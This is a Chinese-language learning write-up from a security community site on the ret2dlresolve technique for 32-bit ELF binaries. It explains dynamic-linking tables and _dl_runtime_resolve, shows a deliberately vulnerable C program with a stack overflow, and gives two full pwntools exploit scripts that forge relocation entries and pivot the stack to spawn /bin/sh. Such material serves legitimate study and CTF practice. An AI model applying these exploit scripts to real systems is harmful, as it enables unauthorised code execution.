# ret2dlresolve-x86 学习记录 - 先知社区

ret2dlresolve-x86 学习记录

- - -

## 0x0.前置知识：

### 四个表：

1.  ELF Symbol Table（**.dynsym**）

```plain
typedef struct
{
  Elf32_Word    st_name; //符号名，是相对.dynstr 起始的偏移
  Elf32_Addr    st_value;
  Elf32_Word    st_size;
  unsigned char st_info; //对于导入函数符号而言，它是 0x12
  unsigned char st_other;
  Elf32_Section st_shndx;
}Elf32_Sym; //对于导入函数符号而言，其他字段都是 0
```

1.  ELF String Table（**.dynstr**）

​ **`“.dynstr”`**是`动态链接字符串表`。其`第一个字节`为 0，然后包含动态链接所需的字符串 (导入函数名等)(`以\x00结尾`)。

1.  ELF REL Relocation Table （**.rel.plt**）

```plain
typedef struct{
           Elf32_Addr r_offset;
           Elf32_Word r_info;
    //r_info 存的也是偏移，是在 dynsym 表里的偏移
}Elf32_Rel;
//例如 read，他在这里是 107h 就是偏移为 1 的导入函数，从 ELF Symbol Table 里找
```

1.  **.dynamic**

```plain
typedef struct
{
  Elf32_Sword  d_tag;       /* Dynamic entry type */
  union
    {
      Elf32_Word d_val;          /* Integer value */
      Elf32_Addr d_ptr;          /* Address value */
    } d_un;
} Elf32_Dyn;
```

​ .dynamic 段里面保存了动态链接器所需要的基本信息，比如依赖于哪些共享对象，动态链接符号表的位置（**.dynsym**)、动态链接重定位表的位置 (**.rel.plt**)、动态链接字符串表的位置 (**.dynstr**)。

​ 想找到.dynsym，就必须先找到.dynamic 的地址，因此.dynamic 主要用于寻找与动态链接相关的其他段 ( .dynsym .dynstr .rela.plt 等段)。

​ 它由一个类型值即 d\_tag 和一个数值或指针。union 是一个联合体，同时定义了一个数值 d\_val 和一个指针 d\_ptr，但是一次只能存储一个值，因此这个联合体的大小为 4 字节，而整个结构体 Elf32\_Dyn 为 8 字节。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226192947-5894217e-d49a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193006-63ebc4a0-d49a-1.png)

## 0x1.核心所在：

```plain
_dl_runtime_resolve(link_map_obj, reloc_arg)
/*该函数的运行模式如下：
1.首先使用参数一 (link_map_obj) 访问.dynamic 表（第三个结构体成员）取出.dynstr .dynsym .rel.plt 三表的首地址。
2.参数二 (reloc_offset) + .rel.plt 首地址，
  得到所需调用函数的 ELF32_REL 的指针，记作 rel。
3.rel->r_info 算术左移 8 位作为.dynsym 表中的"下标"
  得到所需调用函数的 ELF32_Sym 的指针，记作 sym。
4.sym->st_name 得到所需函数在.dynstr 表中的结构体偏移
  .dynstr 首地址 + 该结构体偏移量得到该函数符号名字符串指针。
5.在动态链接库中查找这个函数的地址（）--->_dl_lookup_symbol_x 函数
  并把真实地址赋值给 rel 表的第二个成员，即是 GOT 表
6.调用这个函数。
*/
//x86 情况：reloc_arg == reloc_offset，含义是所重定位符号的重定位项距离重定位表“.rel.plt”起始位置的偏移。所调用函数重定位项地址 = JMPREL + reloc_offset。
```

利用调用 read 函数来体会一下这个过程：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193041-79308ff8-d49a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193102-85446b48-d49a-1.png)

```plain
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;    /* Base address shared object is loaded at.  */
    char *l_name;     /* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;      /* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
};
```

​ link\_map 参数第三偏移处为我们的.dynamic 地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193139-9b84b066-d49a-1.png)

​ 从.dynamic 取出`.dynstr`、`.dynsym`、`.rel.plt`的地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193204-aa65eb04-d49a-1.png)

​ rel.plt 的值加上参数 reloc\_index，即是 ELF REL Relocation Table 的指针，`0x804833c`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193233-bb84dda0-d49a-1.png)

​ 读表可得：r\_offset=0x804A00C，,r\_info=0x107  
​ 其中 r\_offset 是 read 的.got.plt 地址，也是解析之后的真实地址写入的地方。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193302-cd03ed1e-d49a-1.png)

​ r\_info 算术右移 8 为作为 dynsym 的下标即`0x107>>8=1`  
​ `0x80481dc+1*0X10（一个结构体大小）= 0x80481EC`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193324-da6e7528-d49a-1.png)

​ 查询一下此处的地址内容：`st_name`即索引为 0x20

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193341-e49104da-d49a-1.png)

​ 因此最终的 read 函数函数名字符串的地址为.dynstr 的地址加上之前拿到的.dynstr 的索引，即`0804827C+0x20=0804829C`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193414-f8160bea-d49a-1.png)

​ 下一步调用`_dl_lookup_symbol_x`函数，去动态库里进行遍历搜索，也就是我们上述的大致过程。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193610-3d58dafc-d49b-1.png)

## 0x2.漏洞所在：

1.  `dl_resolve`函数不会检查对应的符号是否越界，它只会根据我们所给定的数据来执行。
2.  `dl_resolve` 函数最后的解析根本上依赖于所给定的字符串。

> 控制 dl 函数第二个参数的大小，以便于指向自己所控制的区域，从而伪造一个指定的重定位表项。  
> 伪造重定位表项，使得重定位表项所指的符号也在自己可以控制的范围内。  
> 伪造符号内容，使得符号对应的名称也在自己可以控制的范围内。

## 0x3.使用条件：

-   **`条件1`**：题目`未给出libc库`。
-   **`条件2`**：程序`未开启PIE保护`。如果`开启了PIE保护`，则还需要通过泄露获取基地址。
-   **`条件3`**：程序`未开启FULL RELRO`。

## 0x4.尝试解题：

```plain
#include <stdio.h>
#include <unistd.h>
int init()
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  setvbuf(stderr, 0, 1, 0);
  return alarm(60);
}
int vuln()
{
  char v1[40]; 

  return read(0, v1, 0x100);
}

int main()
{
    init();
    vuln();
    return 0;
}
```

```plain
:/ret2dl$ checksec pwn
[*] '/ret2dl/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

int vuln()
{
  char v1[40]; // [esp+0h] [ebp-28h] BYREF
  return read(0, (int)v1, 256);
}
```

​ **payload 速通版：**

```plain
from pwn import *
context.arch = "i386"
c=process('/ret2dl/pwn')
elf=ELF('/ret2dl/pwn')

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr 
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

read_plt = elf.plt['read'] 
read_got = elf.got['read'] 
leave_ret= 0x0804854A      
writable_addr = 0x0804a700 

Elf32_Sym_sys_addr = writable_addr + 32
align = 0x10-((Elf32_Sym_sys_addr-dynsym)&0xf) 
Elf32_Sym_sys_addr += align   
st_name = Elf32_Sym_sys_addr + 0x10 - dynstr 
Elf32_Sym_sys = p32(st_name) + p32(0) + p32(0) + p32(12) 

r_offset = read_got
r_index  = (Elf32_Sym_sys_addr-dynsym)/0x10
r_info   = int(r_index)<<8 | 0x7
reloc_index = writable_addr - rel_plt + 24
Elf32_rel_plt_sys = p32(r_offset) + p32(r_info) 
Elf32_rel_plt_sys_addr = reloc_index + rel_plt

payload1 = 0x2c * b'a'
payload1 += p32(read_plt)
payload1 += p32(0x0804852D) 
payload1 += p32(0)
payload1 += p32(writable_addr)
payload1 += p32(100)
c.send(payload1)

payload2 =  p32(plt0)   
payload2 += p32(reloc_index) 
payload2 += p32(0xdeadbeef)  
payload2 += p32(writable_addr+80)
payload2 += p32(0)          
payload2 += p32(0)          
payload2 += Elf32_rel_plt_sys 
payload2 += align*b'a'  
payload2 += Elf32_Sym_sys
payload2 += b'system\x00'
payload2 += (80-len(payload2))*b'a'
payload2 += b'/bin/sh\x00'
c.send(payload2)

payload3 =  0x28 * b'a'
payload3 += p32(writable_addr-4) 
payload3 += p32(leave_ret) 
c.send(payload3)

c.interactive()
```

​ **payload 详细版：**

```plain
from pwn import *
context.arch = "i386"
c=process('/ret2dl/pwn')
elf=ELF('/ret2dl/pwn')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

def hexp(name):
    print(hex(name))

# 取地址，做好准备工作。
plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr # ELF JMPREL Relocation Table
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr # 0x80481dc 
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

# hexp(plt0)
# hexp(rel_plt)
# hexp(dynsym)
# hexp(dynstr)
read_plt = elf.plt['read'] # 劫持调用
read_got = elf.got['read'] # got 篡改写入
leave_ret= 0x0804854A      # 栈迁移
writable_addr = 0x0804a700 
# 找一个可写的区域，我们将栈迁移过去，而且我们发现 ida 中最末尾的地址才 0x0804A080，我们写在 a700 后应该不会影响程序原有数据。
# 一.>>>>>>>>>>> 这里有个疑惑，为什么 a000 到 b000 都是可写的，但是只有 a700 后才能打通？
# 需要骗过_dl_runtime_resolve 函数的话，我们就需要伪造我们的 dynsym,dynstr,rel_plt 表，还有 reloc_index。

# 首先我们来构造 dynsym 表
Elf32_Sym_sys_addr = writable_addr + 32
# 构造了一个 Elf32_Sym 的结构体
align = 0x10-((Elf32_Sym_sys_addr-dynsym)&0xf) 
# 对齐操作
# 为什么要对齐呢？是相对于 dynsym 表而言的结构体地址，每个结构体的大小是 0x10 字节，所以要新构造一个的话当然要对齐啦。
# 对齐之后，更好在迁移栈中布局
Elf32_Sym_sys_addr += align   
# system 在 Dynsym 表中的结构体地址构造好了
# 接下来构造 system 的 dynsym 表的结构体内容
st_name = Elf32_Sym_sys_addr + 0x10 - dynstr 
Elf32_Sym_sys = p32(st_name) + p32(0) + p32(0) + p32(12) 
# 把最终的 system 函数名称布置到了 Elf32_Sym_sys_addr + 0x10 的位置，因为 dynsym 表中的第一个结构体占 0x10 个字节

# 现在构造.rel.plt 表
r_offset = read_got
r_index  = (Elf32_Sym_sys_addr-dynsym)/0x10
r_info   = int(r_index)<<8 | 0x7
# 现在倒推构造 reloc_index，也就是 dl 函数的第二个参数
# rel.plt 表的首地址值加上参数 reloc_index，即是 ELF REL Relocation Table 的指针
reloc_index = writable_addr - rel_plt + 24
# 将 rel.plt 结构布置在了 writable_addr + 24 处，为什么是 24 呢？
# 因为 32 是放 sym 结构体的位置，rel.plt 的结构体只占 8 字节
Elf32_rel_plt_sys = p32(r_offset) + p32(r_info) 
Elf32_rel_plt_sys_addr = reloc_index + rel_plt
# 伪造的.rel.plt 构造完成

# 伪造工作完成，现在开始利用：

# 第一次调用 read 函数，目的是完成第二次调用 read 函数的准备工作
payload1 = 0x2c * b'a'
payload1 += p32(read_plt)
payload1 += p32(0x0804852D) # vuln 函数地址
payload1 += p32(0)
payload1 += p32(writable_addr)
payload1 += p32(100)
c.send(payload1)

# 第二次调用 read 函数，写入我们伪造的 ROP 链
payload2 =  p32(plt0)   # 0x8048380
payload2 += p32(reloc_index) # 0x23dc 构成 read_plt-->read(a1,a2,a3),但是经过我们伪造的 reloc_index，使得调用了 system(a1)；a2,a3 就不需要了。
payload2 += p32(0xdeadbeef)  # 返回地址
payload2 += p32(writable_addr+80) # '/bin/sh\x00' addr
payload2 += p32(0)          
payload2 += p32(0)          
payload2 += Elf32_rel_plt_sys 
# 为什么是 rel -- > sym --> str 的顺序呢？
# 因为这是按照_dl_runtime_resolve 函数的运行模式来决定的，详情请见博文[核心所在]
payload2 += align*b'a'  
# 我现在理解的是我们伪造的 dynsym 结构体必须相对于 dynsym 的首地址是 0x10 对齐的，不然就会报错
# 感觉这一点，应该是根据底层实现函数的机制来决定的。
# 这是根据我们前面伪造关系的来决定的，对齐 dynsym 即是 sym 在栈中的地址-dynsym 能被 0x10 除尽
payload2 += Elf32_Sym_sys
payload2 += b'system\x00'
payload2 += (80-len(payload2))*b'a'
payload2 += b'/bin/sh\x00'
c.send(payload2)

# 第三次调用 read 函数，将栈迁移到我们 ROP 链的地方
payload3 =  0x28 * b'a'
payload3 += p32(writable_addr-4) # ebp
payload3 += p32(leave_ret) # eip
# gdb.attach(c)
# pause()
c.send(payload3)

c.interactive()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226194926-1765e004-d49d-1.png)

## 0X5.参考文章链接：

1.  [https://sp4n9x.github.io/2020/08/15/ret2\_dl\_runtime\_resolve%E8%AF%A6%E8%A7%A3/](https://sp4n9x.github.io/2020/08/15/ret2_dl_runtime_resolve%E8%AF%A6%E8%A7%A3/)
2.  [https://ciphersaw.me/ctf-wiki/pwn/linux/stackoverflow/advanced\_rop/](https://ciphersaw.me/ctf-wiki/pwn/linux/stackoverflow/advanced_rop/)
